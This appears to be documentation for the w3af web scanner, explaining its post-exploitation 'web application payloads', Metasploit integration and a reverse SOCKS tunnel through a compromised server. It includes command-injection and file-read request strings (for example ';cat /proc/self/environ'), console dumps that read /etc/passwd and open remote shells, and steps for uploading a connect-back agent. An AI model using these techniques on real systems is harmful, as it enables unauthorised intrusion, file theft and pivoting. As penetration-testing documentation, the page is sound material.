 Web Application Payloads
========================

Introduction
------------

From the hundreds of different Web Application Vulnerabilities that can be found on any web application, **only a small percentage gives the intruder a direct way for executing operating system commands.** And if we keep digging into that group we’ll identify only one or two that under normal circumstances might give the intruder elevated privileges.

Keeping always in mind that the objective of the penetration tester is to gain a root shell in the remote server, Web applications seem to offer more resistance than classic memory corruption exploits; which is true if you have a 0day exploit developed within the Metasploit framework that matches the remote server installation, but if not... **the Web might be the only way in.**

Until now, the exploitation of these vulnerabilities, and the steps needed to achieve access with a user of elevated privileges had to be performed manually, which could in many situations take hours (depending on the web application penetration tester’s skills) and may or may not achieve its objective.

Web Application Payloads are the evolution of old school system call payloads which are used in memory corruption exploits since the 80's. The basic problem solved by any payload is pretty simple: "I have *access* , what now?". In memory corruption exploits it's pretty easy to perform arbitrary tasks because after successful exploitation the attacker is able to control the remote CPU and memory, which allow for execution of arbitrary operating system calls. With this power it’s possible to create a new user, run arbitrary commands or upload files.


In the Web Application field *the situation is completely different*, the intruder is restricted to the "system calls" that the vulnerable Web Application script exposes. For example:

 * Arbitrary File Read Vulnerabilities *exposes* **read()**
 * OS Commanding Vulnerabilities *exposes* **exec()**
 * SQL Injection Vulnerabilities *exposes* **read(), write() ** and potentially **exec()**

Web Application Payloads are small pieces of code that are run in the intruder’s box, and then translated by the Web Application exploit to a combination of GET and POST requests to be sent to the remote Web server. For example, a call to the emulated syscall read() with ``/proc/self/environ`` as a parameter would generate this request when it’s run through an arbitrary file read vulnerability: ``http://host.tld/read.php?file=/proc/self/environ``

And this other request when exploiting an OS Commanding vulnerability ``http://host.tld/os.php?cmd=;cat /proc/self/environ``


Running Web Application Payloads
--------------------------------

The following is a console dump from w3af scanning a vulnerable application, exploiting a vulnerability and then running the ``list_processes`` payload:


.. code-block:: none

    w3af>>> plugins
    w3af/plugins>>> audit lfi
    w3af/plugins>>> back
    w3af>>> target
    w3af/config:target>>> set target http://localhost/local_file_read.php?file=section.txt
    w3af/config:target>>> back
    w3af>>> start
    Found 1 URLs and 1 different points of injection.
    The list of URLs is:
    - http://localhost/local_file_read.php
    The list of fuzzable requests is:
    - http://localhost/local_file_read.php | Method: GET | Parameters: (file="section.txt")
    Starting lfi plugin execution.
    Local File Inclusion was found at: "http://localhost/local_file_read.php", using HTTP method GET. The sent data was: "file=../../../../../../../../etc/passwd".
    This vulnerability was found in the request with id 3.
    Finished scanning process.
    w3af>>> exploit
    w3af/exploit>>> exploit local_file_reader
    local_file_reader exploit plugin is starting.
    - [0] <shell object (rsystem: "*nix")>
    Please use the interact command to interact with the shell objects.
    w3af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell. Commands typed in this menu will be runned through the local_file_reader shell
    w3af/exploit/local_file_reader-0>>> payload list_processes
    ...
    PID   NAME   STATUS          CMD
    1     init   S (sleeping)    /sbin/init
    5183  mysqld S (sleeping)    /usr/sbin/mysqld
    w3af/exploit/local_file_reader-0>>>


This shows how it's possible to retrieve the **full list of running process with a simple arbitrary file read vulnerability.** Similar examples that are able to read the open TCP/IP connections, operating system IP route table, and much more information are not shown for the sake of brevity.

The “lsp” command lists the available payloads, it's important to notice that the list of payloads that can be run changes based on the used exploit. For example, running “lsp” inside a remote file inclusion shell will most likely return a list of all payloads, while running it inside a local file read shell will return the payloads that can be run when the vulnerability exposes only the read() syscall.


Metasploit integration
----------------------

There are a set of web application payloads which can be used to interact with the metasploit framework. When the exploit provides the exec() syscall to the payloads, this allows the w3af user to upload metasploit payloads to the target system and execute them to continue the post-exploitation process.

*   msf_linux_x86_meterpreter_reverse
*   msf_windows_meterpreter_reverse_tcp
*   msf_windows_vncinject_reverse
*   metasploit
*   Identify the vulnerability during a scan
*   Exploit the vulnerability
*   Run “payload <payload_name>”


Proxying traffic through the compromised host
---------------------------------------------

Also implemented as a web application payload, this feature allows you to create a reverse tunnel that will route TCP connections through the compromised server. Before going through an example to see how to use this feature, we will make a summary of the steps that will happen
during exploitation:

#.  w3af finds a vulnerability that allows remote command execution
#.  The user exploits the vulnerability and starts the w3af_agent
#.  w3af performs an extrusion scan by sending a small executable to the remote server. This executable connects back to w3af and allows the framework to identify outgoing firewall rules on the remote network.
#.  w3af_agent manager will send a w3afAgentClient to the remote server.
    The process of uploading the file to the remote server depends on the remote operating system, the privileges of the user running w3af and the local operating system; but in most cases the following happens:
*   w3af reuses the information from the first extrusion scan, which was performed in step 3 in order to know which port it can use to listen for connections from the compromised server.
*   If a TCP port is found to be allowed in the remote firewall, w3af will try to run a server on that port and make a reverse connection from the compromised in order to download the PE/ELF generated file. If no TCP ports are enabled, w3af will send the ELF/PE file to the remote server using several calls to the “echo” command, which is rather slow, but should always work because it's an in-band transfer method.

#.  w3af_agent manager starts the w3afAgentServer that will bind on localhost:1080 (which will be used by the w3af user) and on the interface configured in w3af ( misc-settings->interface ) on the port discovered during step 3.
#.  The w3afAgentClient connects back to the w3afAgentServer, successfully creating the tunnel
#.  The user configures the proxy listening on localhost:1080 on his preferred software
#.  When the program connects to the socks proxy, all outgoing connections are routed through the compromised server

Now that we know the theory, let's see an example of what this feature can do:

.. code-block:: none

    **w3af>>>** plugins
    **w3af/plugins>>>** audit os_commanding
    **w3af/plugins>>>** back
    **w3af>>>** target
    **w3af/target>>>** set target http://172.10.10.1/w3af/v.php?c=list
    **w3af/target>>>** back
    **w3af>>>** start
    The list of found URLs is:
    - http://172.10.10.1/w3af/v.php
    Found 1 URLs and 1 different points of injection.
    The list of Fuzzable requests is:
    - http://172.10.10.1/w3af/v.php | Method: GET | Parameters: (c)
    Starting os_commanding plugin execution.
    OS Commanding was found at: http://172.10.10.1/w3af/v.php . Using method: GET. The data sent was: c=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
    **w3af>>>** exploit
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19-generic i686 GNU/Linux")>
    Please use the interact command to interact with the shell objects.
    **w3af/exploit>>>** interact 0
    Execute "end_interaction" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
    **w3af/exploit/os_commanding-0>>>**

Nothing really new until now, we configured w3af, started the scan and exploited the vulnerability.

.. code-block:: none

    **w3af/exploit/os_commanding-0>>>** payload w3af_agent
    Usage: w3af_agent <your ip address>
    **w3af/exploit/os_commanding-0>>>** payload w3af_agent 172.1.1.1
    Please wait some seconds while w3af performs an extrusion scan.
    The extrusion scan failed.
    Error: The user running w3af can't sniff on the specified interface. Hints: Are you root? Does this interface exist?
    Using inbound port "8080" without knowing if the remote host will be able to connect back.

The last messages are printed when you run w3af as a normal user, the reason is simple, when you run w3af as a user you can't sniff and therefor can't perform a successful extrusion scan. A successful extrusion scan would look like:

.. code-block:: none

    Please wait some seconds while w3af performs an extrusion scan.
    ExtrusionServer listening on interface: eth1
    Finished extrusion scan.
    The remote host: "172.10.10.1" can connect to w3af with these ports:
    - 25/TCP
    - 80/TCP
    - 53/TCP
    - 1433/TCP
    - 8080/TCP
    - 53/UDP
    - 69/UDP
    - 139/UDP
    - 1025/UDP
    The following ports are not bound to a local process and can be used by w3af:
    - 25/TCP
    - 53/TCP
    - 1433/TCP
    - 8080/TCP
    Selecting port "8080/TCP" for inbound connections from the compromised server to w3af.

In both cases (superuser and user), these should be the following steps:

.. code-block:: none

    Starting w3afAgentClient upload.
    Finished w3afAgentClient upload.
    Please wait 30 seconds for w3afAgentClient execution.
    w3afAgent service is up and running.
    You may start using the w3afAgent that is listening on port 1080. All connections made through this SOCKS daemon will be relayed using the compromised server.


And now, from another console we can use a socksClient to route connections through the compromised server:

.. code-block:: console

    **$** nc 172.10.10.1 22
    (UNKNOWN) [172.10.10.1] 22 (ssh) : Connection refused
    **$** python socks_client.py 127.0.0.1 22
    SSH-2.0-OpenSSH_4.3p2 Debian-8ubuntu1
    Protocol mismatch.

Where the socks_client.py code looks like:

.. code-block:: python

    import extlib.socksipy.socks as socks
    import sys

    s = socks.socksocket()
    s.setproxy(socks.PROXY_TYPE_SOCKS4,"localhost")
    s.connect((sys.argv[1],int(sys.argv[2])))

    s.send('\n')
    print s.recv(1024)

